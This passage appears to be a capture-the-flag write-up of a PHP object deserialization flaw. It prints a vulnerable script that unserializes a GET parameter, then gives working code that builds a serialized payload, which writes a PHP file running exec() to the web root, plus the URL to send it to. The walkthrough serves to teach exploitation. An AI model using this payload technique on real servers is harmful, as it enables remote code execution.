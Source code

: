 Below was the content of ```sator.php``` script:

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();

?>
````
The script takes the variable ```arepo``` through GET method, unserializes it and passes it to the class ```DatabaseExport```.

The  ```__destruct()``` uses ```file_put_contents``` to write the content of the file ```user_file``` to the web root directory.

# RCE

We can abuse this by:
- creating a serialized php script.
- the php script would specify 2 variales ```user_file``` as a php script and ```data``` as the code we want to execute on the target machine.
- Then we browse to the ```user_file``` we specified to execute our code.

The code to create the serialized payload is

```php
<?php

class DatabaseExport {
    public $user_file = 'evil.php';
    public $data = '<?php exec("ping -c 2 10.10.14.59"); ?>';
}
print urlencode(serialize(new DatabaseExport))
?>
```
I used ping as my payload to test if the code works on the target. 
I executed the above php script and copied the output. The output is then passed on to ```http://sator.tenet.php?arepo=```. 